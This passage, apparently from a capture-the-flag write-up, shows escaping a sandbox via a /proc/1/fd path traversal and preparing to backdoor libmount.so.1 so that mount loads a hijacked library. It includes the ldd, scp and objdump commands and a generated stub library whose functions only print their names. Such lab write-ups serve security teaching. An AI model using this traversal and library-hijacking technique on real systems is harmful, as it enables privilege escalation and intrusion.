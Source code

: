 In this case we choose mount as our target. Using `ldd` we can see all the libraries it imports.

```
clarence@scanned:/var/www/malscanner/sandbox$ ldd /usr/bin/mount
        linux-vdso.so.1 (0x00007ffe1d1f2000)
        libmount.so.1 => /lib/x86_64-linux-gnu/libmount.so.1 (0x00007f0af75d4000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f0af740f000)
        libblkid.so.1 => /lib/x86_64-linux-gnu/libblkid.so.1 (0x00007f0af73be000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f0af7392000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0af7647000)
        libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f0af72fa000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f0af72f4000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f0af72d0000)
```

To choose the one we want to backdoor we can run mount from within the sandbox and look at the error message to get the first library missing. To have an interactive process from where we can call `mount` one way is to run `sandbox` with `/bin/sh`

```
clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /bin/sh 1
$ /proc/1/fd/3/../../../../../../usr/bin/mount /dev/sda /tmp
/proc/1/fd/3/../../../../../../usr/bin/mount: error while loading shared libraries: libmount.so.1: cannot open shared object file: No such file or directory
$ Killed subprocess
```

Having identified the library to backdoor we now need to know all the functions inside it. To have better access to it we use scp to copy the library over to our machine.

```
$ scp clarence@10.129.160.252:/lib/x86_64-linux-gnu/libmount.so.1 .
clarence@10.129.160.252's password:
libmount.so.1                                                                                                                                                                                                100%  367KB 225.1KB/s   00:01$
```

Using objdump we can retrieve all the functions and with awk we can create a C source file calling each one of them. For the function call we will simply output which function got called so we know what to backdoor.

```
$ objdump -T libmount.so.1  | grep 'DF .text'  | awk -F' ' '{print"int " $7"() { puts(\""$7" got called !!\"); return 0; }"}' > evillib.c
```

Finally we also add the necessary header files at the top of the source code and compile it to a shared library.

`evillib.c`
```c
#include "stdio.h"
#include "stdlib.h"

int mnt_context_prepare_mount() { puts("mnt_context_prepare_mount got called !!"); return 0; }
int mnt_context_syscall_called() { puts("mnt_context_syscall_called got called !!"); return 0; }
int mnt_table_set_trailing_comment() { puts("mnt_table_set_trailing_comment got called !!"); return 0; }
int mnt_context_get_target() { puts("mnt_context_get_target got called !!"); return 0; }
int mnt_fs_get_size() { puts("mnt_fs_get_size got called !!"); return 0; }
int mnt_table_get_trailing_comment() { puts("mnt_table_get_trailing_comment got called !!"); return 0; }
int mnt_get_fstype() { puts("mnt_get_fstype got called !!"); return 0; }
int mnt_resolve_spec() { puts("mnt_resolve_spec got called !!"); return 0; }

...[snip]...
	
int mnt_context_disable_mtab() { puts("mnt_context_disable_mtab got called !!"); return 0; }
```